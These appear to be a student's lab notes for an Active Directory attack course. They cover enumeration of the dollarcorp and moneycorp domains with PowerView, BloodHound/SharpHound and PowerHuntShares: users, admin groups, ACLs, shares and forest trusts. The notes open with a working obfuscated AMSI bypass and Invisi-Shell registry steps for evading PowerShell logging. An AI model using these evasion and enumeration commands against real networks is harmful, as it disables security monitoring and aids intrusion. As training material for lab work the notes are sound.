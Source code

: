 ### SUMMARY 
- [Learning Objective 1](#Learning-Objective-1)
- [Learning Objective 2](#Learning-Objective-2)
- [Learning Objective 3](#Learning-Objective-3)
- [Learning Objective 4](#Learning-Objective-4)

### AMSI bypass
```
S`eT-It`em ( 'V'+'aR' + 'IA' + (("{1}{0}"-f'1','blE:')+'q2') + 
('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GetvarI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( 
"{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f 
'.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f 
'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em') ) )."g`etf`iElD"( 
( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f 
'ile','a')) ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}"
-f'ubl','P')+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```

### Start a PowerShell session using Invisi-Shell to avoid enhanced logging
```
C:\AD\Tools>C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
```
```
C:\AD\Tools>set COR_ENABLE_PROFILING=1
C:\AD\Tools>set COR_PROFILER={cf0d821e-299b-5307-a3d8-b283c03916db}
C:\AD\Tools>REG ADD "HKCU\Software\Classes\CLSID\{cf0d821e-299b-5307-a3d8-
b283c03916db}" /f
The operation completed successfully.
C:\AD\Tools>REG ADD "HKCU\Software\Classes\CLSID\{cf0d821e-299b-5307-a3d8-
b283c03916db}\InprocServer32" /f
The operation completed successfully.
C:\AD\Tools>REG ADD "HKCU\Software\Classes\CLSID\{cf0d821e-299b-5307-a3d8-
b283c03916db}\InprocServer32" /ve /t REG_SZ /d 
"C:\AD\Tools\InviShell\InShellProf.dll" /f
The operation completed successfully.
C:\AD\Tools>powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.
```

### Load PowerView
```
. C:\AD\Tools\PowerView.ps1
```

### Learning Objective 1
#### Enumerate following for the dollarcorp domain:
* Users
* Computers
* Domain Administrators
* Enterprise Administrators
* Use BloodHound to identify the shortest path to Domain Admins in the dollarcorp domain.
* Find a file share where studentx has Write permissions.

### PowerView
**List informations about all users** 
```
Get-DomainUser
```

**List a specific property of all the users**
```
Get-DomainUser | select -ExpandProperty samaccountname
```

**Enumerate member computers**
```
Get-DomainComputer | select -ExpandProperty dnshostname
```

**See details of the Domain Admins group**
```
Get-DomainGroup -Identity "Domain Admins"
```

**Enumerate members of the Domain Admins group**
```
Get-DomainGroupMember -Identity "Domain Admins"
```

**Enumerate members of the Enterprise Admins group**
```
Get-DomainGroupMember -Identity "Enterprise Admins"
```

**Query the root domain as Enterprise Admins group is present only in the root of a forest**
```
Get-DomainGroupMember -Identity "Enterprise Admins" -Domain moneycorp.local
```
### ADModule
```
Import-Module C:\AD\Tools\ADModulemaster\Microsoft.ActiveDirectory.Management.dll
Import-Module C:\AD\Tools\ADModulemaster\ActiveDirectory\ActiveDirectory.psd1

Get-ADUser -Filter *
Get-ADUser -Filter * -Properties *| select Samaccountname,Description
Get-ADComputer -Filter *
Get-ADGroupMember -Identity 'Domain Admins'
Get-ADGroupMember -Identity 'Enterprise Admins' -Server moneycorp.local
```

### BloodHound ingestores
```
C:\AD\Tools\BloodHound-master\BloodHoundmaster\Collectors\SharpHound.exe --collectionmethods Group,GPOLocalGroup,Session,Trusts,ACL,Container,ObjectProps,SPNTargets --excludedcs
```

### PowerHuntShares
```
Import-Module C:\AD\Tools\PowerHuntShares.psm1
Invoke-HuntSMBShares -NoPing -OutputDirectory C:\AD\Tools\ -HostList C:\AD\Tools\servers.txt

[*][12/24/2024 04:02] - All files written to C:\AD\Tools\\SmbShareHunt12242024040138
```



### Learning Objective 2
#### Enumerate following for the dollarcorp domain:
* ACL for the Domain Admins group
* ACLs where studentx has interesting permissions
* Analyze the permissions for studentx in BloodHound UI

**Enumerate ACLs for the Domain Admins Group**
```
Get-DomainObjectAcl -Identity "Domain Admins" -ResolveGUIDs -Verbose
```

**check for modify rights/permissions for the studentx**
```
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "studentx"} 
```

**Check permissions on RDPUsers group**
```
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "RDPUsers"}
```

### Learning Objective 4
**Enumerate all domains in the moneycorp.local forest** 
* Map the trusts of the dollarcorp.moneycorp.local domain.
* Map External trusts in moneycorp.local forest. 
* Identify external trusts of dollarcorp domain. Can you enumerate trusts for a trusting forest?

### PowerView

**Enumerate all domains in the current forest**
```
Get-ForestDomain -Verbose
```

**Map all the trusts of the dollarcorp domain**
```
Get-DomainTrust
```

**List only the external trusts**
```
Get-ForestDomain | %{Get-DomainTrust -Domain $_.Name} | ?{$_.TrustAttributes -eq "FILTER_SIDS"}
```

**Identify external trusts of the dollarcorp domain**
```
Get-DomainTrust | ?{$_.TrustAttributes -eq "FILTER_SIDS"}
```

**Since the above is a Bi-Directional trust, we can extract information from the eurocorp.local forest**
```
Get-ForestDomain -Forest eurocorp.local | %{Get-DomainTrust -Domain $_.Name}
```


## Using Active Directory module
```
(Get-ADForest).Domains
Get-ADTrust -Filter *
Get-ADForest | %{Get-ADTrust -Filter *}
(Get-ADForest).Domains | %{Get-ADTrust -Filter '(intraForest -ne $True) -and (ForestTransitive -ne $True)' -Server $_}
Get-ADTrust -Filter '(intraForest -ne $True) -and (ForestTransitive -ne $True)'
Get-ADTrust -Filter * -Server eurocorp.local
```



